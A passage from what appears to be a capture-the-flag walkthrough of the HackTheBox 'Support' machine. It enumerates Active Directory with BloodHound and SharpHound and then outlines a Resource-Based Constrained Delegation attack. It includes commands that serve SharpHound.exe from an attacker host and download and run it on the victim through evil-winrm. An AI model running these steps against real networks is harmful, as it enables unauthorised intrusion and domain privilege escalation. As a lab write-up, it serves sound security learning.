 Going back to our attacker's machine, we need to install Bloodhound to identify possible attack paths:

```bash
sudo apt install -y neo4j 
sudo neo4j start
```

Download Bloodhound from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
```

Unzip the file and run Bloodhound:

```bash
./BloodHound --no-sandbox
```

Need to change the password at http://localhost:7474:
- creds: neo4j:[insert your password]

We will upload sharphound.exe to the victim's machine to gather AD data.

BloodHound > Collectors 

Set up an HTTP server:

```bash
python3 -m http.server
```

Now in the evil-winrm session of the victim's machine, fetch the SharpHound.exe:

```powershell
curl -o SharpHound.exe http://10.10.14.6:8000/SharpHound.exe
```

or open Evil-WinRM in the directory of Bloodhound > Collectors and upload SharpHound.exe.

Now execute to the victim's once it is uploaded:

```powershell
./SharpHound.exe
```

It will gather the data and generate a .zip file that we need to download into attacker's machine.
Re-open Evil-WinRM into the home folder so permissions won't mess up with the download.

Once downloaded, we need only drag and drop the zip file into the BloodHound window to load the acquired data.

We saw that support user is a member of SHARED SUPPORT ACCOUNTS@SUPPORT.HTB which has a direct link with the DC.SUPPORT.HTB

### RBCD Attack
In a nutshell, the Resource-Based Constrained Delegation (RBCD) attack works like this:
1. **Step 1** – Add Fake Computer to the Domain: The attacker controls a computer (let’s call it $FAKE-COMP01) and adds it to the domain.
2. **Step 2** – Set Up the Fake Computer to Act on Behalf of the Domain Controller (DC).
3. **Step 3** – Generate Kerberos Tickets: The attacker requests Kerberos tickets for $FAKE-COMP01.
4. **Step 4** – Impersonate a Privileged User: The attacker uses Pass-the-Ticket (PtT) to authenticate as a privileged user, like the Administrator.
